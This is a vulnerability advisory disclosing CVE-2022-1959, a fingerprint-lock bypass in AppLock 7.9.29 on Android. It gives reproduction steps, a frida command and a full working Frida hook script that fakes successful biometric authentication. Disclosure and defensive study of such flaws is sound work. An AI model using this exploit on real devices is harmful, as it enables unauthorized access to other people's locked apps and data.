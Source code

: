 ```yaml
---
slug: advisories/walker/
title: AppLock 7.9.29 - Improper Access Control - Fingerprint
authors: Carlos Bello
writer: cbello
codename: walker
product: AppLock 7.9.29
date: 2022-09-26 06:00 COT
cveid: CVE-2022-1959
severity: 5.5
description: AppLock 7.9.29  -  Improper Access Control - Fingerprint
keywords: Fluid Attacks, Security, Vulnerabilities, AppLock, Spsoft Mobile, Spsoft, Fingerprint
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | AppLock 7.9.29 - Improper Access Control - Fingerprint |
| **Code name**         | [Walker](https://en.wikipedia.org/wiki/Alan_Walker)    |
| **Product**           | AppLock (Fingerprint)                                  |
| **Affected versions** | Version 7.9.29                                         |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Improper Access Control - Fingerprint                                                                  |
| **Rule**              | [115. Security controls bypass or absence](https://docs.fluidattacks.com/criteria/vulnerabilities/115) |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:P/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 5.5                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-1959](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1959)                          |

## Description

AppLock version 7.9.29 allows an attacker with physical access to
the device to bypass biometric authentication. This is possible
because the application did not correctly implement fingerprint
validations.

## Vulnerability

In android application fingerprint implementations, the
onAuthenticationSucceded method is triggered when the system
successfully authenticates a user. Most biometric authentication
implementations rely on this method being called, without worrying
about the CryptoObject. The application logic responsible for
unlocking the application is usually included in this callback method.
This approach is trivially exploited by connecting to the application
process and calling the AuthenticationSucceded method directly, as a
result, the application can be unlocked without providing valid
biometric data.

Another common case occurs when some developers use CryptoObject but do not
encrypt/decrypt data that is crucial for the application to function properly.
Therefore, we could skip the authentication step altogether and proceed to use
the application. To solve this there is no single answer, however a good approach
is to use a fingerprint protected key store key that will be used to decrypt a
symmetric key. This symmetric key must be used to decrypt the application storage.

I attach the following link so that you can better understand the vulnerability
present in AppLock:

* https://labs.f-secure.com/blog/how-secure-is-your-android-keystore-authentication/

## Steps to reproduce

1. Install and configure AppLock.

2. Activate and configure fingerprint protection in AppLock.

3. Install and configure frida as indicated in the following [link](https://programmerclick.com/article/51481638343/).

4. Start AppLock on your device, if you set everything up correctly, you should now
   see a prompt to put your fingerprint.

5. Run the following command on your laptop.

```bash
frida -U 'AppLock' -l exploit.js --no-pause
```

6. Now on your device press the 'recent' button, commonly represented by a square.
   This button opens the recent apps view so that you can switch from one open app
   to another.

7. Log back into AppLock.

8. Now all you have to do is log in again. This time you will enter the application
   instantly, without having entered a valid fingerprint.

## Exploitation

### exploit.js

```js
// exploit.js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(
    crypto, null, 0
);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const AuthenticationResult = Java.use(
        'android.hardware.fingerprint.FingerprintManager$AuthenticationResult'
    );
    const FingerprintManager  = Java.use(
        'android.hardware.fingerprint.FingerprintManager'
    );
    const CryptoObject = Java.use(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject'
    );

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject',
        'android.os.CancellationSignal',
        'int',
        'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback',
        'android.os.Handler'
    );

    fingerprintManager_authenticate.implementation = (
        crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");

        // We send a null cryptoObject to the listener of the fingerprint
        var crypto = CryptoObject.$new(null);
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```

## Evidence of exploitation

![applock-fingerprint-bypass](https://user-images.githubusercontent.com/51862990/192392091-e6ff1169-93d4-4c5b-ba61-59fdbf7841a8.gif)

## Our security policy

We have reserved the CVE-2022-1959 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: AppLock (Fingerprint) 7.9.29

* Operating System: Android 8.0 (API 26)

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.spsoftmobile.com>

## Timeline

<time-lapse
  discovered="2022-09-06"
  contacted="2022-09-07"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>
